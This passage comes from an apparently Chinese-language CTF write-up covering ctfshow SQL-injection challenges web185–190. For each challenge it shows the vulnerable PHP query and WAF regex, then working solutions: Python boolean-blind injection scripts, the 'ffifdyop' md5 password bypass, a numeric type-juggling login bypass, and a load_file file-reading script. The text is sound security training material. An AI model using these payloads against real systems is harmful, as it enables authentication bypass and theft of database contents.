class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span>))</span><br></pre></td></tr></table></figure>

<p>关键的部分解析如下：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">#<span class="operator">&gt;</span>concat 运用</span><br><span class="line"><span class="keyword">select</span> concat(<span class="literal">true</span>,<span class="literal">true</span><span class="operator">+</span><span class="literal">true</span>)</span><br><span class="line">#<span class="operator">&gt;</span>等价于</span><br><span class="line"><span class="keyword">select</span> concat(<span class="number">1</span>,<span class="number">2</span>)</span><br><span class="line">#<span class="operator">=</span>得到的结果：<span class="number">12</span></span><br><span class="line"><span class="comment">-- 这样子是纯粹的数字拼接，如果是字符：</span></span><br><span class="line">#<span class="operator">&gt;</span>字符拼接</span><br><span class="line"><span class="keyword">select</span> concat(<span class="string">&#x27;ctf&#x27;</span>,<span class="string">&#x27;show&#x27;</span>)</span><br><span class="line">#<span class="operator">=</span>得到的结果：ctfshow</span><br></pre></td></tr></table></figure>

<p>下面是脚本：</p>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests,string</span><br><span class="line"></span><br><span class="line">url = <span class="string">&quot;http://3709ad73-f417-4045-91fd-58e4e526b640.challenge.ctf.show/select-waf.php&quot;</span></span><br><span class="line">header = &#123;</span><br><span class="line">    <span class="string">&quot;User-Agent&quot;</span>: <span class="string">&quot;Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36&quot;</span>,</span><br><span class="line">    <span class="string">&quot;Content-Type&quot;</span>: <span class="string">&quot;application/x-www-form-urlencoded&quot;</span></span><br><span class="line">&#125;</span><br><span class="line">data = &#123;</span><br><span class="line">    <span class="string">&#x27;tableName&#x27;</span>:<span class="string">&quot;ctfshow_user group by pass having pass like concat(&#123;&#125;)&quot;</span></span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">def</span> <span class="title function_">stringToDef</span>(<span class="params">string</span>):</span><br><span class="line">    <span class="string">&quot;&quot;&quot;</span></span><br><span class="line"><span class="string">    字符串转换为函数包裹形式的机器</span></span><br><span class="line"><span class="string">    :param string:</span></span><br><span class="line"><span class="string">    :return:</span></span><br><span class="line"><span class="string">    &quot;&quot;&quot;</span></span><br><span class="line">    pdString = <span class="string">&quot;&quot;</span></span><br><span class="line">    <span class="keyword">for</span> strs <span class="keyword">in</span> string+<span class="string">&quot;%&quot;</span>:</span><br><span class="line">        numStrTrue = <span class="string">&#x27;char(&#x27;</span>+<span class="string">&#x27;+&#x27;</span>.join([<span class="string">&#x27;true&#x27;</span> <span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="built_in">ord</span>(strs))])+<span class="string">&#x27;)&#x27;</span></span><br><span class="line">        pdString+=numStrTrue</span><br><span class="line">        <span class="keyword">if</span> strs != (string+<span class="string">&quot;%&quot;</span>)[-<span class="number">1</span>]:</span><br><span class="line">            pdString+=<span class="string">&quot;,&quot;</span></span><br><span class="line">    <span class="keyword">return</span> pdString</span><br><span class="line"></span><br><span class="line">flag=<span class="string">&quot;ctfshow&#123;&quot;</span></span><br><span class="line"><span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">1</span>,<span class="number">100</span>):</span><br><span class="line">    <span class="keyword">for</span> j <span class="keyword">in</span> <span class="string">&quot;0123456789abcdefghijklmnopqrstuvwxyz-&#123;&#125;&quot;</span>:</span><br><span class="line">        <span class="built_in">print</span>(<span class="string">f&quot;<span class="subst">&#123;i&#125;</span> \t <span class="subst">&#123;j&#125;</span>&quot;</span>)</span><br><span class="line">        data=&#123;</span><br><span class="line">            <span class="string">&#x27;tableName&#x27;</span>:<span class="string">&quot;ctfshow_user group by pass having pass like concat(&#123;&#125;)&quot;</span>.<span class="built_in">format</span>(stringToDef(flag+j))</span><br><span class="line">        &#125;</span><br><span class="line">        r=requests.post(url=url,data=data,headers=header).text</span><br><span class="line">        <span class="keyword">if</span> <span class="string">&quot;$user_count = 1;&quot;</span> <span class="keyword">in</span> r:</span><br><span class="line">            flag+=j</span><br><span class="line">            <span class="built_in">print</span>(flag)</span><br><span class="line">            <span class="keyword">if</span> j==<span class="string">&#x27;&#125;&#x27;</span>:</span><br><span class="line">                exit()</span><br><span class="line">            <span class="keyword">break</span></span><br></pre></td></tr></table></figure>

<h1 id="web186"><a href="#web186" class="headerlink" title="web186"></a>web186</h1><h2 id="原始信息-94"><a href="#原始信息-94" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line">  <span class="variable">$sql</span> = <span class="string">&quot;select count(*) from &quot;</span>.<span class="variable">$_POST</span>[<span class="string">&#x27;tableName&#x27;</span>].<span class="string">&quot;;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> <span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\&lt;|\&gt;|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\&#x27;|\&quot;|union|\`|sleep|benchmark/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<p>查询结果</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//返回用户表的记录总数</span></span><br><span class="line">      <span class="variable">$user_count</span> = <span class="number">0</span>;</span><br></pre></td></tr></table></figure>

<h2 id="解题-89"><a href="#解题-89" class="headerlink" title="解题"></a>解题</h2><p>和上面的正则表达式对比：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="string">&#x27;/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\&#x27;|\&quot;|union|\`|sleep|benchmark/i&#x27;</span></span><br><span class="line"><span class="string">&#x27;/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\&lt;|\&gt;|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\&#x27;|\&quot;|union|\`|sleep|benchmark/i&#x27;</span></span><br></pre></td></tr></table></figure>

<p>想比较，多过滤了：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="operator">%</span>  <span class="operator">&lt;</span>  <span class="operator">&gt;</span>  <span class="operator">^</span> </span><br></pre></td></tr></table></figure>

<p>如果是之前改写的脚本（web185），还是没问题的。</p>
<h1 id="web187–换模式-账密"><a href="#web187–换模式-账密" class="headerlink" title="web187–换模式-账密"></a>web187–换模式-账密</h1><h2 id="原始信息-95"><a href="#原始信息-95" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line">  <span class="variable">$sql</span> = <span class="string">&quot;select count(*) from ctfshow_user where username = &#x27;<span class="subst">$username</span>&#x27; and password= &#x27;<span class="subst">$password</span>&#x27;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="variable">$username</span> = <span class="variable">$_POST</span>[<span class="string">&#x27;username&#x27;</span>];</span><br><span class="line"><span class="variable">$password</span> = <span class="title function_ invoke__">md5</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;password&#x27;</span>],<span class="literal">true</span>);</span><br><span class="line"></span><br><span class="line"><span class="comment">//只有admin可以获得flag</span></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$username</span>!=<span class="string">&#x27;admin&#x27;</span>)&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名不存在&#x27;</span>;</span><br><span class="line">    <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-90"><a href="#解题-90" class="headerlink" title="解题"></a>解题</h2><p><code>username</code> 被强制锁定在最高权限的 <code>admin</code> ，而 <code>password</code> 加密是：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="number">199999</span>@wife MINGW64 ~</span><br><span class="line">$ php -r <span class="string">&quot;echo md5(&#x27;ffifdyop&#x27;);&quot;</span></span><br><span class="line"><span class="number">276</span>f722736c95d99e921722cf9ed621c</span><br><span class="line"><span class="number">199999</span>@wife MINGW64 ~</span><br><span class="line">$ php -r <span class="string">&quot;echo md5(&#x27;ffifdyop&#x27;,true);&quot;</span></span><br><span class="line"><span class="string">&#x27;or&#x27;</span><span class="number">6</span>蒥欓!r,b</span><br><span class="line">    </span><br><span class="line"><span class="comment"># md5不带true =&gt; 返回32个字符的组合</span></span><br><span class="line"><span class="comment"># md5带true =&gt; 返回二进制模式的字符串，能返回字符。</span></span><br></pre></td></tr></table></figure>

<p>而 <code>ffifdyop</code> 类似于 <code>md5</code> 的万能密码。</p>
<p>所以payload为：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">username=admin&amp;password=ffifdyop</span><br></pre></td></tr></table></figure>

<p>得到的结果就是flag。</p>
<h1 id="web188"><a href="#web188" class="headerlink" title="web188"></a>web188</h1><h2 id="原始信息-96"><a href="#原始信息-96" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select pass from ctfshow_user where username = <span class="subst">&#123;$username&#125;</span>&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//用户名检测</span></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/and|or|select|from|where|union|join|sleep|benchmark|,|\(|\)|\&#x27;|\&quot;/i&#x27;</span>, <span class="variable">$username</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名非法&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//密码检测</span></span><br><span class="line"><span class="keyword">if</span>(!<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$password</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;密码只能为数字&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//密码判断</span></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$row</span>[<span class="string">&#x27;pass&#x27;</span>]==<span class="title function_ invoke__">intval</span>(<span class="variable">$password</span>))&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;登陆成功&#x27;</span>;</span><br><span class="line">    <span class="title function_ invoke__">array_push</span>(<span class="variable">$ret</span>[<span class="string">&#x27;data&#x27;</span>], <span class="keyword">array</span>(<span class="string">&#x27;flag&#x27;</span>=&gt;<span class="variable">$flag</span>));</span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-91"><a href="#解题-91" class="headerlink" title="解题"></a>解题</h2><p>首先必须明确一点：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="keyword">select</span> username,password <span class="keyword">from</span> <span class="keyword">user</span> <span class="keyword">where</span> username<span class="operator">=</span><span class="number">0</span> <span class="keyword">and</span> password<span class="operator">=</span><span class="number">0</span>;</span><br><span class="line"># 得到的结果是所有字母开头的用户名和密码</span><br><span class="line"># 从mariadb和mysql测试出来的数据都是返回非数字开头的用户名和密码</span><br><span class="line"></span><br><span class="line"># 这里，数据库比较数据的时候会将字符串转为<span class="number">0</span>，如下：</span><br><span class="line">MariaDB [kali]<span class="operator">&gt;</span> <span class="keyword">select</span> <span class="number">1</span><span class="operator">&gt;</span><span class="string">&#x27;admin&#x27;</span>;</span><br><span class="line"><span class="operator">+</span><span class="comment">-----------+</span></span><br><span class="line"><span class="operator">|</span> <span class="number">1</span><span class="operator">&gt;</span><span class="string">&#x27;admin&#x27;</span> <span class="operator">|</span></span><br><span class="line"><span class="operator">+</span><span class="comment">-----------+</span></span><br><span class="line"><span class="operator">|</span>         <span class="number">1</span> <span class="operator">|</span></span><br><span class="line"><span class="operator">+</span><span class="comment">-----------+</span></span><br><span class="line"><span class="number">1</span> <span class="type">row</span> <span class="keyword">in</span> <span class="keyword">set</span>, <span class="number">1</span> warning (<span class="number">0.000</span> sec)</span><br></pre></td></tr></table></figure>

<p>有了这个依据，试图传入数字0就是万能密码了。</p>
<p>且密码必须是整数，则使用如下payload即可。</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">POST: username=0&amp;password=0	</span><br></pre></td></tr></table></figure>


<h1 id="web189"><a href="#web189" class="headerlink" title="web189"></a>web189</h1><h2 id="原始信息-97"><a href="#原始信息-97" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select pass from ctfshow_user where username = <span class="subst">&#123;$username&#125;</span>&quot;</span>;      </span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//用户名检测</span></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/select|and| |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\x26|\x7c|or|into|from|where|join|sleep|benchmark/i&#x27;</span>, <span class="variable">$username</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;用户名非法&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//密码检测</span></span><br><span class="line"><span class="keyword">if</span>(!<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$password</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;密码只能为数字&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//密码判断</span></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$row</span>[<span class="string">&#x27;pass&#x27;</span>]==<span class="variable">$password</span>)&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;登陆成功&#x27;</span>;</span><br><span class="line">  &#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-92"><a href="#解题-92" class="headerlink" title="解题"></a>解题</h2><p>对比正则表达式：</p>
<figure class="highlight shell"><table><tr><td class="code"><pre><span class="line">/and|or|select|from|where|union|join|sleep|benchmark|,|\(|\)|\&#x27;|\&quot;/i</span><br><span class="line">/select|and| |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\x26|\x7c|or|into|from|where|join|sleep|benchmark/i</span><br></pre></td></tr></table></figure>

<p>能通过过滤的单独ascii字符串：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">!<span class="string">&quot;#$%&amp;&#x27;()+,-./0123456789:;&lt;=&gt;?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz&#123;|&#125;~</span></span><br></pre></td></tr></table></figure>

<p>此处借用了一下厉害师傅的脚本：</p>
<hr>
<p><strong>因为确定一定包含ctfshow这个内容，所以通过load_file的返回值“\u67e5\u8be2\u5931\u8d25”判断是否存在，写个payload</strong></p>
<blockquote>
<p><strong>LOAD_FILE(file_name)：</strong> 读取文件并返回文件内容为字符串。要使用此函数，文件必须位于服务器主机上，必须指定完整路径的文件，而且必须有FILE权限。</p>
<p><strong>regexp：</strong> mysql中的正则表达式操作符</p>
</blockquote>
<figure class="highlight python"><table><tr><td class="code"><pre><span class="line"><span class="comment"># coding=utf-8</span></span><br><span class="line"><span class="keyword">import</span> requests</span><br><span class="line">url = <span class="string">&quot;http://cee6bd64-356e-4265-990f-90399a46aba2.challenge.ctf.show/api/&quot;</span></span><br><span class="line"><span class="built_in">str</span> = <span class="string">&quot;0123456789abcdefghijklmnopqrstuvwxyz-&#123;&#125;&quot;</span></span><br><span class="line">flag = <span class="string">&quot;ctfshow&#123;&quot;</span></span><br><span class="line">payload=<span class="string">&quot;if(load_file(&#x27;/var/www/html/api/index.php&#x27;)regexp(&#x27;&#123;0&#125;&#x27;),1,0)&quot;</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">for</span> i <span class="keyword">in</span> <span class="built_in">range</span>(<span class="number">666</span>):</span><br><span class="line">    <span class="built_in">print</span>(<span class="string">&#x27; 开始盲注第&#123;&#125;位&#x27;</span>.<span class="built_in">format</span>(i))</span><br><span class="line">    <span class="keyword">for</span> j <span class="keyword">in</span> <span class="built_in">str</span>:</span><br><span class="line">        data=&#123;</span><br><span class="line">            <span class="string">&quot;username&quot;</span>:payload.<span class="built_in">format</span>(flag + j),</span><br><span class="line">            <span class="string">&quot;password&quot;</span>:<span class="number">0</span></span><br><span class="line">        &#125;</span><br><span class="line">        res = requests.post(url,data)</span><br><span class="line">        <span class="keyword">if</span> <span class="string">r&quot;\u67e5\u8be2\u5931\u8d25&quot;</span> <span class="keyword">in</span> res.text:</span><br><span class="line">            flag += j</span><br><span class="line">            <span class="built_in">print</span>(flag)</span><br><span class="line">            <span class="keyword">break</span></span><br><span class="line">        <span class="keyword">if</span> j==<span class="string">&#x27;&#125;&#x27;</span>:</span><br><span class="line">            <span class="built_in">print</span>(<span class="string">&#x27; flag is &#123;&#125;&#x27;</span>.<span class="built_in">format</span>(flag))</span><br><span class="line">            exit()</span><br></pre></td></tr></table></figure>

<p>测试如下：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">POST: username=<span class="keyword">if</span>(load_file(<span class="string">&#x27;/var/www/html/api/index.php&#x27;</span>)regexp(<span class="string">&#x27;ctfshow&#123;1&#x27;</span>),1,0)&amp;password=1</span><br><span class="line"><span class="built_in">return</span>: \u5bc6\u7801\u9519\u8bef	<span class="comment">#(密码错误的意思)</span></span><br><span class="line"></span><br><span class="line">POST: username=<span class="keyword">if</span>(load_file(<span class="string">&#x27;/var/www/html/api/index.php&#x27;</span>)regexp(<span class="string">&#x27;ctfshow&#123;5&#x27;</span>),1,0)&amp;password=1</span><br><span class="line"><span class="built_in">return</span>: \u67e5\u8be2\u5931\u8d25  	<span class="comment">#(查询失败的意思)</span></span><br></pre></td></tr></table></figure>

<p>在本地测试flag：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"># 指定的用户目录下的文件无法读取，if返回<span class="number">0</span>，打印所有的非数字开头的用户</span><br><span class="line">MariaDB [kali]<span class="operator">&gt;</span> <span class="keyword">select</span> <span class="operator">*</span> <span class="keyword">from</span> <span class="keyword">user</span> <span class="keyword">where</span> username<span class="operator">=</span>if(load_file(<span class="string">&#x27;/home/xiaodi/flag.txt&#x27;</span>)regexp(<span class="string">&#x27;ctfshow&#123;&#x27;</span>),<span class="number">1</span>,<span class="number">0</span>);</span><br><span class="line"><span class="operator">+</span><span class="comment">----------+--------------------+</span></span><br><span class="line"><span class="operator">|</span> username <span class="operator">|</span> password           <span class="operator">|</span></span><br><span class="line"><span class="operator">+</span><span class="comment">----------+--------------------+</span></span><br><span class="line"><span class="operator">|</span> admin    <span class="operator">|</span> asdasdfadfasfasdf  <span class="operator">|</span></span><br><span class="line"><span class="operator">|</span> user1    <span class="operator">|</span> safsdafsdfasfdsdfa <span class="operator">|</span></span><br><span class="line"><span class="operator">+</span><span class="comment">----------+--------------------+</span></span><br><span class="line"><span class="number">2</span> <span class="keyword">rows</span> <span class="keyword">in</span> <span class="keyword">set</span>, <span class="number">2</span> warnings (<span class="number">0.000</span> sec)</span><br><span class="line"></span><br><span class="line"># 读取具有一定权限的index.php文件，读取正确时if返回<span class="number">1</span>,<span class="number">1</span>无法匹配用户名，返回空</span><br><span class="line">MariaDB [kali]<span class="operator">&gt;</span> <span class="keyword">select</span> <span class="operator">*</span> <span class="keyword">from</span> <span class="keyword">user</span> <span class="keyword">where</span> username<span class="operator">=</span>if(load_file(<span class="string">&#x27;/var/www/html/index.php&#x27;</span>)regexp(<span class="string">&#x27;ctfshow&#123;5&#x27;</span>),<span class="number">1</span>,<span class="number">0</span>);</span><br><span class="line"><span class="keyword">Empty</span> <span class="keyword">set</span>, <span class="number">2</span> warnings (<span class="number">0.000</span> sec)</span><br></pre></td></tr></table></figure>

<h2 id="总结-8"><a href="#总结-8" class="headerlink" title="总结"></a>总结</h2><p>正则表达式+load_file盲注。</p>
<p>load_file能读取index文件的内容，条件限制如下：</p>
<ol>
<li>文件在服务器上</li>
<li>条件没有单双引号</li>
<li>被读取的文件拥有root权限</li>
</ol>
<h1 id="web190–-题目明写布尔盲注"><a href="#web190–-题目明写布尔盲注" class="headerlink" title="web190–(题目明写布尔盲注)"></a>web190–(题目明写布尔盲注)</h1><h2 id="原始信息-98"><a href="#原始信息-98" class="headerlink" title="原始信息"></a>原始信息</h2><p>查询语句</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select pass from ctfshow_user where username = &#x27;<span class="subst">&#123;$username&#125;</span>&#x27;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//密码检测</span></span><br><span class="line"><span class="keyword">if</span>(!<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$password</span>))&#123;</span><br><span class="line">  <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;密码只能为数字&#x27;</span>;</span><br><span class="line">  <span class="keyword">die</span>(<span class="title function_ invoke__">json_encode</span>(<span class="variable">$ret</span>));</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//密码判断</span></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$row</span>[<span class="string">&#x27;pass&#x27;</span>]==<span class="variable">$password</span>)&#123;</span><br><span class="line">    <span class="variable">$ret</span>[<span class="string">&#x27;msg&#x27;</span>]=<span class="string">&#x27;登陆成功&#x27;</span>;</span><br><span class="line">  &#125;</span><br><span class="line"></span><br><span class="line"><span class="comment">//<span class="doctag">TODO:</span>感觉少了个啥，奇怪</span></span><br></pre></td></tr></table></figure>

<h2 id="解题-93"><a href="#解题-93" class="headerlink" title="解题"></a>解题</h2><p>本以为是那种十分严格的过滤，瞄了几眼别人说这是“经典布尔盲注”并且看到一句sql才明白这是之前盲注时遇到的情况。没过滤各种字符，那就是说可以随便注。</p>
<p>下面是随便写的脚本：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"># coding<span class="operator">=</span>utf<span class="number">-8</span></span><br><span class="line">import requests</span><br><span class="line"></span><br><span class="line">def getOrPostText(url,data):</span><br><span class="line">    header <span class="operator">=</span> &#123;</span><br><span class="line">        <span class="string">&#x27;User-Agent&#x27;</span>: <span class="string">&#x27;Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36&#x27;</span>,</span><br><span class="line">        <span class="string">&#x27;Content-Type&#x27;</span>: <span class="string">&#x27;application/x-www-form-urlencoded&#x27;</span></span><br><span class="line">    &#125;</span><br><span class="line">    text <span class="operator">=</span> (requests.post(url, data<span class="operator">=</span>data, headers<span class="operator">=</span>header)).text.encode(<span class="string">&#x27;gbk&#x27;</span>).decode(<span class="string">&#x27;unicode_escape&#x27;</span>)</span><br><span class="line">    if &quot;密码错误&quot; <span class="keyword">in</span> text:</span><br><span class="line">        <span class="keyword">return</span> <span class="number">1</span></span><br><span class="line">    <span class="keyword">else</span>:</span><br><span class="line">        <span class="keyword">return</span> <span class="number">0</span></span><br><span class="line">    </span><br><span class="line">def getUrl(url):</span><br><span class="line"></span><br><span class="line">    ReStr1 <span class="operator">=</span> [chr(i) <span class="keyword">for</span> i <span class="keyword">in</span> <span class="keyword">range</span>(<span class="number">32</span>,<span class="number">127</span>)]</span><br><span class="line">    ReStr2 <span class="operator">=</span> <span class="string">&#x27;0123456789abcdefghijklmnopqrstuvwxyz&#123;&#125;-,_&#x27;</span></span><br><span class="line">    ReStr3 <span class="operator">=</span> <span class="string">&#x27;0123456789abcdefghijklmnopqrstuvwxyz_,-&#x27;</span></span><br><span class="line"></span><br><span class="line">    # ctfshow_web</span><br><span class="line">    sql1 <span class="operator">=</span> &quot;admin&#x27;and(if(substring(database(),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0))-- -&quot;</span><br><span class="line">    # ctfshow_fl0g,ctfshow_user</span><br><span class="line">    sql2 <span class="operator">=</span> &quot;admin&#x27;and(if(substring((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0))-- -&quot;</span><br><span class="line">    # id,f1ag</span><br><span class="line">    sql3 <span class="operator">=</span> &quot;admin&#x27;and(if(substring((select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;ctfshow_fl0g&#x27;)),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0))#&quot;</span><br><span class="line">    # f1ag字段的内容</span><br><span class="line">    sql4 <span class="operator">=</span> &quot;admin&#x27;and(if(substring((select(group_concat(f1ag))from(ctfshow_fl0g)),&#123;&#125;,1)=&#x27;&#123;&#125;&#x27;,1,0))#&quot;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">    flag2 <span class="operator">=</span> <span class="string">&#x27;ctfshow_fl0g,ctfsho&#x27;</span></span><br><span class="line">    def miniFunction(<span class="keyword">sql</span>,ReStr,<span class="keyword">start</span><span class="operator">=</span><span class="number">1</span>,<span class="keyword">end</span><span class="operator">=</span><span class="number">50</span>,getContent<span class="operator">=</span><span class="string">&#x27;&#x27;</span>):</span><br><span class="line">        &quot;&quot;&quot;</span><br><span class="line">        直接获取目标内容</span><br><span class="line">        :param sql: 注入的sql语句</span><br><span class="line">        :param ReStr: 字符字典</span><br><span class="line">        :param start: 开始位置</span><br><span class="line">        :param end: 结束位置</span><br><span class="line">        :param getContent: 提示文本</span><br><span class="line">        :return: 没有返回，只有打印</span><br><span class="line">        &quot;&quot;&quot;</span><br><span class="line">        flag <span class="operator">=</span> <span class="string">&#x27;&#x27;</span></span><br><span class="line">        print(<span class="string">&#x27;&#123;:-^50&#125;&#x27;</span>.format(getContent))</span><br><span class="line">        <span class="keyword">for</span> i <span class="keyword">in</span> <span class="keyword">range</span>(<span class="keyword">start</span>, <span class="keyword">end</span>):</span><br><span class="line">            t <span class="operator">=</span> <span class="number">0</span></span><br><span class="line">            <span class="keyword">for</span> j <span class="keyword">in</span> ReStr:</span><br><span class="line"></span><br><span class="line">                data <span class="operator">=</span> &#123;</span><br><span class="line">                    &quot;username&quot;: sql.format(i, j),</span><br><span class="line">                    &quot;password&quot;: <span class="number">0</span></span><br><span class="line">                &#125;</span><br><span class="line">                if getOrPostText(url, data) <span class="operator">=</span><span class="operator">=</span> <span class="number">1</span>:</span><br><span class="line">                    flag <span class="operator">+</span><span class="operator">=</span> j</span><br><span class="line">                    if j <span class="operator">=</span><span class="operator">=</span> &quot;&#125;&quot;:</span><br><span class="line">                        t<span class="operator">=</span>len(ReStr)</span><br><span class="line">                    print(flag)</span><br><span class="line">                    break</span><br><span class="line">                t <span class="operator">+</span><span class="operator">=</span> <span class="number">1</span></span><br><span class="line">            if t <span class="operator">=</span><span class="operator">=</span> len(ReStr):</span><br><span class="line">                print(f&quot;You have found the content: &#123;flag&#125;&quot;)</span><br><span class="line">                break</span><br><span class="line"></span><br><span class="line">    miniFunction(sql1,ReStr3,getContent<span class="operator">=</span><span class="string">&#x27;get database&#x27;</span>)</span><br><span class="line">    miniFunction(sql2,ReStr3,getContent<span 